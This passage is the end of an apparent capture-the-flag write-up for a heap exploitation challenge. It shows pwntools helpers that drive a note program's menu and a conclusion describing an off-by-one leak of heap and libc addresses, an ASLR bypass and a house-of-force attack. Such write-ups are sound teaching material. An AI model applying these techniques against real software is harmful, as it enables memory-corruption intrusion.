 ```python

    io.send(b"1");

    io.sendafter(b"name: ", name + b"\n");
    io.sendafter(b"desc: ", desc + b"\n");
    io.recvuntil(b">> ");

    id += 1;

def view_note(io, id):

    io.send(b"4");
    io.sendafter(b"idx: ", f"{id}".encode());

    io.recvuntil(b"Name : ");
    name = io.recvline(keepends = False);

    io.recvuntil(b"Description : ");
    desc = io.recvline(keepends = False);

    io.recvuntil(b">> ");
    return name, desc;

def edit_note(io, id, name, desc, size):

    io.send(b"2");

    io.sendafter(b"index: ", f"{id}".encode());
    io.sendafter(b"name: ", name);

    io.sendafter(b"size: ", f"{size}".encode());
    io.sendafter(b"desc: ", desc);

    io.recvuntil(b">> ");

def initialize_io(elf):

    if args.GDB:
        return gdb.debug(elf.path, gdbscript = script);
    
    return process(elf.path);

# <================ init main ================>

if __name__ == "__main__":
    main();
```

![yawn](https://user-images.githubusercontent.com/46600932/155208172-dd735211-43d8-464d-873c-5fb49076b166.png)<br>
<sup>Finally executing the exploit</sup>

## Conclusion

This exploit leveraged an off-by-one bug to leak heap and libc memory, thus bypassing ```ASLR```. And, although a ```fastbin``` attack seems to be a valid
exploit strategy for this challenge, the very same bug was used to perform a much simpler house-of-force.

